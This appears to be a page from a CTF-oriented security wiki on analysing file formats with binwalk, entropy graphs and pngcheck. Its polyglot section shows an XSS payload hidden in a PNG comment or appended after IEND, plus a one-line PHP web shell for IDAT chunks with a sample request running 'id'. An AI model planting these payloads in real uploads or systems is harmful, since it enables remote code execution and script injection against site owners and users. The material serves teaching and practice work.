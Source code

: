 ```yaml
---
description: What to do with a file you don't understand
---
```


# File Formats

## Understanding common file formats

If you want to understand how a file format works, you should look at documentation online about it. Often these formats are not ASCII readable so you'll want to use a hex editor, such as `xxd`, `hexedit` or [hexyl](https://github.com/sharkdp/hexyl).&#x20;

A big collection of file formats made by Ange Albertini is the following (just scroll through until you find your format):

{% embed url="https://github.com/corkami/pics/blob/master/binary/README.md" %}
A big collection of drawings of file formats to understand them quickly
{% endembed %}

## Binwalk

Sometimes when data tries to be hidden inside another file, it is just pasted right into the host file. Meaning that the bytes of the secret file are just somewhere in the other file. Using [binwalk](https://github.com/ReFirmLabs/binwalk) you can check for known file signatures in a file to see if it embeds something. \
Using the following command you can also recursively extract all of these into a `.extracted` folder:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ binwalk -eM file.bin
</strong>DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             TRX firmware header, little endian, image size: 37883904 bytes, CRC32: 0x95C5DF32, flags: 0x1, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x0, rootfs offset: 0x0
28            0x1C            uImage header, header size: 64 bytes, header CRC: 0x780C2742, created: 2018-10-10 02:12:20, image size: 2150281 bytes, Data Address: 0x8000, Entry Point: 0x8000, data CRC: 0xA097CFEA, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "DD-WRT"
92            0x5C            Linux kernel ARM boot executable zImage (little-endian)
2460          0x99C           device tree image (dtb)
23432         0x5B88          xz compressed data
23776         0x5CE0          xz compressed data
2117484       0x204F6C        device tree image (dtb)
3145756       0x30001C        UBI erase count header, version: 1, EC: 0x0, VID header offset: 0x800, data offset: 0x1000

<strong>$ binwalk --dd='.*' file.bin  # Another way to extract all file signatures
</strong></code></pre>

{% hint style="warning" %}
A common false positive with PNGs is `Zlib compressed data`. This is because PNG uses Zlib for compression in its own file format, so it is recognized by binwalk. But very often this compressed data just covers the entire file
{% endhint %}

You can also use binwalk to understand an unknown file better, by looking at the **entropy** for example. Entropy is how random a certain sequence of bytes is. Simple ASCII text is pretty predictable and stays within about the same range, so the entropy would be low. But for completely random/encrypted bytes the entropy should be really high, close to 1. You can get a graph of the entropy of the file using the `-E` flag:

```shell-session
$ binwalk -E file.bin
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>An example of a firmware image showing various amounts of entropy (<a href="https://allabouttesting.org/short-tutorial-firmware-analysis-tool-binwalk/">source</a>)</p></figcaption></figure>

This can give a good idea about what parts of a file you could look at.&#x20;

## PNG

Image files like PNG can have a lot of hidden info. It's a relatively complex file format with a lot of room for secrets.&#x20;

A quick check you can do to see if it is a completely valid PNG file is using [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcheck -h
</strong>Test PNG, JNG or MNG image files for corruption, and print size/type info.

Usage:  pngcheck [-7cfpqtv] file.{png|jng|mng} [file2.{png|jng|mng} [...]]
   or:  ... | pngcheck [-7cfpqstvx]
   or:  pngcheck [-7cfpqstvx] file-containing-PNGs...

Options:
   -7  print contents of tEXt chunks, escape chars >=128 (for 7-bit terminals)
   -c  colorize output (for ANSI terminals)
   -f  force continuation even after major errors
   -p  print contents of PLTE, tRNS, hIST, sPLT and PPLT (can be used with -q)
   -q  test quietly (output only errors)
   -s  search for PNGs within another file
   -t  print contents of tEXt chunks (can be used with -q)
   -v  test verbosely (print most chunk data)
   -x  search for PNGs within another file and extract them when found

<strong>$ pngcheck image.png
</strong>OK: image.png (1920x1080, 32-bit RGB+alpha, non-interlaced, 96.6%).
</code></pre>

PNG files consist of **chunks** of bytes that tell something about the image. The most common one is `IDAT` which contains the pixel data of the image. An image always ends with `IEND` and 4 checksum bytes (every chunk has the checksum).&#x20;

You might see custom chunks being used to embed data, or data appended to the end, after `IEND`.&#x20;

### Embed Raw Data (Polyglots)

You might find some applications where you are allowed to upload files and find that you can either give them a `.php` extension to create a web shell or make the `Content-Type: text/html` to render tags inside the raw bytes for [cross-site-scripting-xss.md](../web/cross-site-scripting-xss.md "mention"). In either case, this application might validate or even transform your image in a way that does not preserve all the original bytes, breaking your payload.&#x20;

While you might be able to include **metadata** with tools like `exiftool`, these might be stripped by the server upon saving your file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -Comment='&#x3C;svg/onload=alert()>' example.png
</strong>    1 image files updated
<strong>$ hd example.png
</strong>00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
...
00000080  e0 b6 b6 f4 d1 0d 53 22  0d 14 00 00 00 1c 74 45  |......S"......tE|
<strong>00000090  58 74 43 6f 6d 6d 65 6e  74 00 3c 73 76 67 2f 6f  |XtComment.&#x3C;svg/o|
</strong><strong>000000a0  6e 6c 6f 61 64 3d 61 6c  65 72 74 28 29 3e ad 30  |nload=alert()>.0|
</strong>000000b0  14 57 00 00 08 7d 49 44  41 54 78 5e ec ce 31 0d  |.W...}IDATx^..1.|
</code></pre>

Another trick is simply appending data to the end of the file. This would not pass as a valid PNG anymore, but could survive on the server:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo '&#x3C;svg/onload=alert()>' >> example.png
</strong>
<strong>$ hd example.png
</strong>...
000009d0  5a b3 07 54 ac 7b 51 fb  78 a7 ea 00 00 00 00 49  |Z..T.{Q.x......I|
<strong>000009e0  45 4e 44 ae 42 60 82 3c  73 76 67 2f 6f 6e 6c 6f  |END.B`.&#x3C;svg/onlo|
</strong><strong>000009f0  61 64 3d 61 6c 65 72 74  28 29 3e 0a              |ad=alert()>.|
</strong>000009fc
</code></pre>

Lastly, there is a technique more resistant to transformation by using the **IDAT chunks**. These normally include compressed DEFLATE data representing the pixels themselves, but this process can be reversed to obtain a string of pixels that compress into a payload like:

```php
<?=$_GET[0]($_POST[1]);?>
```

If the payload above is executed, you can provide a function you want to call like `system()` as the query parameter `0`, and an argument you want to give the function in a `1` body parameter.&#x20;

<pre class="language-http"><code class="lang-http"><strong>POST /shell.php?0=system HTTP/1.1
</strong>...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

<strong>1=id
</strong></code></pre>

The process of creating these and a few example payloads are described in the following post, which also shows an XSS payload with the same idea:

{% embed url="https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/" %}

## Archives (ZIP, TAR, 7z, etc.)

{% content-ref url="archives.md" %}
[archives.md](archives.md)
{% endcontent-ref %}
